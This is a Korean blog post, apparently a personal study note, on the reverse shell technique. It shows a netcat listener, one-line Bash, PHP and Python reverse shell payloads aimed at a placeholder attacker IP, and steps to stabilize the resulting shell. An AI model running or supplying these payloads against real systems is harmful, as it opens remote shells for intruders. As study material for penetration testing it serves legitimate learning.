 ```yaml
---
layout: post
title: "리버스 쉘 (Reverse Shell) 공부"
date: 2025-09-19 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

리버스 쉘(Reverse Shell)은 공격 대상 서버가 공격자 PC로 직접 쉘을 연결하도록 만드는 공격 기법이다. 방화벽이 외부에서 내부로 들어오는 연결은 차단하지만 내부에서 외부로 나가는 연결은 허용하는 경우가 많다는 점을 이용한다.

---

### 2. 1단계: 리스너 설정

가장 먼저 공격자 PC에서 대상 서버로부터의 연결을 받을 준비를 해야 한다. `netcat`을 이용해 특정 포트를 열고 연결을 기다리는 리스너를 실행한다.
```bash
# 4444번 포트에서 연결을 대기하며 상세 정보를 출력
nc -lvnp 4444
```
*   `-l`: 리스닝 모드
*   `-v`: 상세 정보 출력
*   `-n`: DNS 조회 생략
*   `-p`: 포트 지정

---

### 3. 2단계: 페이로드 실행

대상 서버의 환경에 맞는 페이로드를 실행하여 공격자 PC로 연결을 시도한다. `revshells.com`과 같은 도구를 사용하면 원하는 환경의 페이로드를 쉽게 생성할 수 있다.

*   **Bash:** `bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1`
*   **PHP:** `php -r '$sock=fsockopen("[Attacker IP]",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
*   **Python:** `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("[Attacker IP]",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

---

### 4. 3단계: 쉘 안정화 (Stabilization)

처음 획득한 쉘은 자동 완성이나 `Ctrl+C`가 동작하지 않는 불안정한 쉘(Dumb Shell)이다. 이를 상호작용이 가능한 완전한 TTY 쉘로 업그레이드하는 과정이 필요하다.

[여기에 쉘 안정화 전/후 비교 이미지 삽입]

1.  **TTY 쉘 생성:**
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
2.  **터미널 제어권 확보:**
    ```bash
    # (Ctrl+Z 입력) -> 쉘을 백그라운드로 보냄
    stty raw -echo; fg
    # (Enter 두 번 입력) -> 다시 포어그라운드로 가져옴
    ```
3.  **환경 변수 설정:**
    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

<hr class="short-rule">

